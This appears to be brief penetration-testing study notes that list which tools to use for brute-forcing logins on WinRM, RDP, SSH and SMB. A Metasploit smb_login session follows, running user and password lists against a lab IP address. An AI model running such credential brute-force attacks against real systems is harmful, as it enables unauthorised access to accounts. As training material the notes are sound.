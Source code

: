 
# WINRM -> NETEXEC
# RDP, SSH -> HYDRA
# SMB -> HYDRA
# SMBV3+ -> metasploit
```shell-session
use auxiliary/scanner/smb/smb_login

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

```

